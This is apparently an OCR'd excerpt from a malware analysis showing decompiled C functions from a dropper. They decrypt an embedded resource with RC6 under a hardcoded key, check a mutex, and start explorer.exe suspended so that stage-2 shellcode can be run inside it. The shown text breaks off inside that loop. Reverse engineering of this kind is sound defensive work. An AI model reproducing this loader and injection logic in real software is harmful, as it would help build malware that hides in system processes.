 ```c
void __cdecl u_decrypt_resource_with_rc6(char *a1_out, char *a2_in, int a3_len, int a4_key1, int a5_key2) {
  /* ... */i
  proc_heap = (void *)MEMORY[0x478370](v5, 8);  // GetProcessHeap
  buf_1 = (_DWORD *)MEMORY[0x46021C](proc_heap, 144, buf);//  HeapAlloc
  if ( buf_1 )
  {
    // https://github.com/stamparm/cryptospecs/blob/master/symmetrical/sources/rc6.c
    u_rc6_set_key(a4_key1, buf_1);              // key: BAADBEEF
    u_rc6_decrypt((int)a1_out, a3_len, buf_1);
    proc_heap2 = MEMORY[0x478370](v7, 8);       // GetProcessHeap
    MEMORY[0x460218](proc_heap2, v9, buf_1);    // HeapFree
  }
}
```

```c
int __cdecl u_rc6_set_key(unsigned int a1, _DWORD *a2) {
  /* .. */
  v10 = (a1 << 24) | ((_WORD)a1 << 8) & 0x100 | (a1 >> 8) & 0x10 | HIBYTE(a1);
  *a2 = 0xB7E15163;
  for ( i = 1; i < 0x24; ++i )
    a2[i] = a2[i - 1] - 0x61C88647;
  v7 = 0;
  v6 = 0;
  v9 = 0;
  for ( j = 1; ; ++j ) {
    result = j;
    if ( j > 108 )
      break;
    _5_lsbits = u_get_5_lsbits(3);
    a2[v9] = u_rol(v7 + v6 + a2[v9], _5_lsbits);
    v6 = a2[v9];
    v4 = u_get_5_lsbits(v7 + v6);
    v10 = u_rol(v7 + v6 + v10, v4);
    v7 = v10;
    v9 = (v9 + 1) % 0x24;
  }
  return result;
}
```

```c
void __cdecl u_drop_n_run_shellcode_stage_2(char *a1_buf, int a2_size) {
  /* ... */
  MEMORY[0x46022C](1000);                       // Sleep
  v23 = *a1_buf;
  one = a1_buf[21];
  v25 = a1_buf + 1;
  if ( MEMORY[0x478374](0x1F0001, 0, a1_buf + 1) )// OpenMutexA
    MEMORY[0x460230](0);                        // ExitProcess

  for ( i = 0; i < one; ++i ) {
    v14 = *(_DWORD *)&a1_buf[8 * i + 22];
    size = *(_DWORD *)&a1_buf[8 * i + 26];
    u_memset(v13, 0, 0x44);
    *(_DWORD *)v13 = 0x44;
    v15 = 0;
    ctr = 30;
    do {
      --ctr;
      u_get_explorer_path((int)explorer_path, i == 0);
      v15 = MEMORY[0x478378](0, explorer_path, 0, 0, 0, 4, 0, 0, v13, &hProcess);// CreateProcessA
    } while ( !v15 && ctr > 0 );
```